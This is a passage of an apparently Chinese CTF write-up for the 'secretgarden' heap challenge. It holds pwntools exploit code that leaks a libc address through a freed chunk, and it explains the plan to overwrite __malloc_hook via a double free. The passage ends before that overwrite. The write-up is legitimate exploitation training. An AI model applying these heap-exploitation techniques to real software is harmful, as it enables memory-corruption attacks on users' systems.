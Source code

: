 ```python
add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

add(500,"1","1")
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,"","4")
show();io.recvuntil("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a

leak("libc",libc_addr)
leak("gdb_libc",gdb_libc_base)

debug(0x107b,'heap chunks\nheap bins')
show()
io.interactive()
```

### 修改__malloc_hook

因为libc中常利用的函数指针为__malloc_hook和__free_hook，并且题目中的DoubleFree还需要构造size大小合适的伪堆块，所以需要动态调试观察这两个函数指针附近是否可以满足伪堆块的利用条件：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))


add(500,"1","1")
add(0x28,'2','2')
add(10,'3','3')
```